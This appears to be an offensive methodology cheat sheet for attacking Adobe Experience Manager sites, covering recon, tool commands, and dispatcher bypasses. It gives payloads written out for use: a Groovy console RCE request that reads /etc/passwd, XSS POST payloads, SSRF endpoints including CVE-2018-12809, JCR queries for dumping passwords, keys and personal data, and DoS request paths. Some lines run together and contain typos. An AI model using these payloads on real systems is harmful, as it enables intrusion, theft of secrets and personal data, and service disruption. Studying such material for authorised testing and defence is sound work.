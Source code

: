 ### video

[https://www.youtube.com/watch?v=EQNBQCQMouk](https://www.youtube.com/watch?v=EQNBQCQMouk)

### method

- collect sub domain
- use nuclei/nuclei-templates/technologies/tech-detect.yaml to identifiy aem
- Python3 ./aem_hacker.py –u [https://example](https://example/) — host localhost
- use ../fuzzing/service/aem.txt to fuzz on path

### aem tools

- [https://github.com/0ang3el/aem-hacker](https://github.com/0ang3el/aem-hacker)
- [https://github.com/0ang3el/aem-rce-bundle](https://github.com/0ang3el/aem-rce-bundle)

```
python3 aem_hacker.py    -u     --host yourvpshostname         =>comman usagepython3 aem_discovery.py --file urls.txt --workers 150         =>discover urlpython3 aem_enum.py      --url                                 => automate usernames and secrets grabbingpython3 aem_ssrf2rce.py  --url  --fakaem yourvbspython3 aem_server.py
```

### aem dispatcher bypasses

- [ ] bypassing cve 2016-0957

```
<https://aemsite/bin/querybuilder.json>              => blocked<https://aemsite/bin/querybuilder.json/a.css>        => allow<https://aemsite/bin/querybuilder.json/a.html>       => allow<https://aemsite/bin/querybuilder.json/a.ico>        => allow<https://aemsite/bin/querybuilder.json/a.png>        => allow<https://aemsite/bin/querybuilder.json;%0aa.css>     => allow<https://aemsite/bin/querybuilder.json/a.1.json>     => allow
```

- [ ] bypassing for interesting servlets

```
<https://aemsite/bin/querybuilder.json>              => blocked<https://aemsite/bin/querybuilder.json/a.css>        => block<https://aemsite/bin/querybuilder.json;%0aa.css>     => block<https://aemsite/bin/querybuilder.json.servlet.css>  => allow<https://aemsite/bin/querybuilder.json.servlet.html> => allow<https://aemsite/bin/querybuilder.json.servlet.ico>  => allow<https://aemsite/bin/querybuilder.json.servlet.png>  => allow///etc.json                 instead of  /etc.json///bin///quesrybuilder.json instead of  /bin/quesrybuilder.json
```

- [ ] using ssrf

```
ssrf should allow to send GET request and see response- Opensocial proxy- ssrf in reportingservicesproxyservlet(cve-2018-12809)
```

- [ ] rce via exposed Groovy console

```
POST /bin/groovyconsole/post.servlet HTTP/1.1HOST:script=sef+proc+%3d+"cat+/etc/passwd".execute()%0d%0aprintln+proc.txt
```

- [ ] xss

```
POST //////content/usergenerated/etc/commerce/smartlists/vv.jsonaa=alert('xss+on+'%2b+document.domain+%2b+'\\nby+%400ang3el+\\ud83d\\ude00')%3b
```

- [ ] xss

```
POST /content/usergenerated/etc/commerce/smartlists/xssaaa.html=alert('xss+on+'%2b+document.domain+%2b+'\\nby+%400ang3el+\\ud83d\\ude00')%3b
```

- [ ] xss

```
POST /content/usergenerated/etc/commerce/smartlists/xssedjcr:data=alert('xss+on+'%2b+document.domain+%2b+'\\nby+%400ang3el+\\ud83d\\ude00')%3b&jcr:mimeType=text/html
```

- [ ] secret from jcr

```
everything is stored in jcr repository :- secrets (password  ,encryption key , tokens)- cinfiguration- pII- usernames** what to use **- DefaultGETServlet- QueryBUilderJsonServlet- QueryBuilderFeedServlet- GQLSearch Servlet- other** DefaultGETServlet **- Allows to get jsr node with its props- selectors  - tidy  - infinity  - numeric value:-1,0,1...99999- formats  - json  - xml  - res- <https://aem.site/tidy.3.json>  /    => jcr:root  tidy => selector tidy  3    => selector depth  json => output format- how to grap - get node names, start from jcr:root :    - /.1.json    - /.ext.json    - /.childrenlist.json - or guess node names :    - comman names /content, /home, /var, /etc - Dump props for each child node of jcr:root :    - /etc.json or /etc.s.json or /etc.-1.json- what to grap - interesting nodes    - /etc => may contain secrets (pass,enc,keys)    - /apps/system/config => passwords    - /apps/<smth>/config => passwords    - /var => may contain private pii    - /home => password hashed ,pii - interesting props-contain aem usernames    - jcr:createdBy    - jcr:lastModifiedBy    - cq:LastModifiedBy
```

- [ ] QueryBuild Servlets

```
- path   - /bin/querybuilder.json   - /bin/querybuilder.feed.servlet- examples of useful searches - type=nt:file&nodename=*.zip - path=/home&p.hits-full&p.limit=-1 - hasPermission=jcr:write&path=/content - hasPermission=jcr:addChild Nodes&path=/content - hasPermission=jcr:modify Properties&path=/content - p.hits-selective&p.properties=jcr%3alastModifiedBy&property=jcr%3alast ModifiedBy&property.operation-unequals&property.value=admin&type=nt%3abase&p.limit=1000 - path=/etc&path.flat=true&p.nodedepth=0 - path=/etc/replication/agents.author&p.hits-full&p.nodedepth=-1
```

- [ ] exploit SSRF

```
ssrf via Opensocial proxy - /libs/opensocial/proxy?container=default&url=http://target - /libs/shindig/proxy?container=default&url=http://target
```

- [ ] ReportingServicesProxyServlet

```
SSRF via ReportingServicesProxyServlet (CVE-2018-12809)- /libs/ca/contentinsight/content/proxy.reportingservices.json?url=http://target%23/apil.omniture.com/a&q=a- /libs/cq/contentinsight/proxy/reportingservices.json.GET.servlet?url=http://target%23/apil.omniture.com/a&q=a- /libs/mcm/salesforce/customer.json?checkType=authorize&authorization_url=http://target&customer_key=zzzz&customer_secret-zzzz&redirect_uri=xxxx&code=eSSRF via SiteCatalystServlet- /libs/cq/analytics/components/sitecatalystpage/segments.json.servlet- /libs/cq/analytics/templates/sitecatalyst/jcr:content.segments.json
```

- [ ] DOS

```
- /.ext.infinity.json- /.ext.infinity.json?tidy=true- /bin/querybuilder.json?type=nt:base&p.limit=-1- /bin/wcm/search/gql.servlet.json?query=type:base%20limit:..-1&pathPrefix=- /content.assetsearch.json?query=*&start=0&limit=10&random=123- /..assetsearch.json?query=*&start=0&limit=10&random=123- /system/bgservlets/test.json?cycles-999999&interval=0&flushEvery=111111111
```